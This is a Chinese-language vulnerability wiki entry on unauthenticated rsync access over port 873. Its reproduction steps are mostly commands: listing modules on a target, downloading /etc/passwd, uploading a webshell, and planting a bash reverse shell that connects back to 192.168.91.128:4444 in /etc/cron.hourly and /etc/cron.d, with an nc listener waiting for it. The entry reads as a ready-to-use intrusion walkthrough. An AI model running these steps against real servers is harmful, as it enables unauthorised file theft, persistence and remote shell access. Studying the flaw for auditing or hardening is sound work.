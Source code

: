 Rsync 未授权访问漏洞
====================

一、漏洞简介
------------

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

**rsync的常用命令**

    列举整个同步目录或指定目录：
    rsync ip::
    rsync ip::xxx/
    下载文件或目录到本地：
    rsync -avz ip::xxx/xx.php /root
    rsync -avz ip::xxx/ /var/tmp
    上传文件到服务器：
    rsync -avz webshell.php ip::web/

二、漏洞影响
------------

三、复现过程
------------

`nmap`先扫一波：![1.png](/Users/aresx/Documents/VulWiki/.resource/Rsync未授权访问漏洞/media/rId24.png)

    rsync rsync://www.0-sec.org:873/
    rsync rsync://www.0-sec.org:873/src 来查看模块名列表
    我们再列出src模块下的文件
    rsync rsync://www.0-sec.org:873/src/

![2.png](/Users/aresx/Documents/VulWiki/.resource/Rsync未授权访问漏洞/media/rId25.png)

    我们可以下载任意文件：
    rsync -av rsync://www.0-sec.org:873/src/etc/passwd ./

![3.png](/Users/aresx/Documents/VulWiki/.resource/Rsync未授权访问漏洞/media/rId26.png)

**提权：**

写入`shell`并赋权：

    #!/bin/bash 
    /bin/bash -i >& /dev/tcp/192.168.91.128/4444 0>&1

    chmod +x shell

将`shell`上传至`/etc/cron.hourly`：

    rsync -av shell rsync://192.168.91.130/src/etc/cron.hourly
    rsync -av shell rsync://www.0-sec.org:873/src/etc/cron.d/shell

![4.png](/Users/aresx/Documents/VulWiki/.resource/Rsync未授权访问漏洞/media/rId27.png)

本地监听：

    nc -nvv -lp 4444

参考链接
--------

> https://fansonfan.github.io/2019/04/20/rsync-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
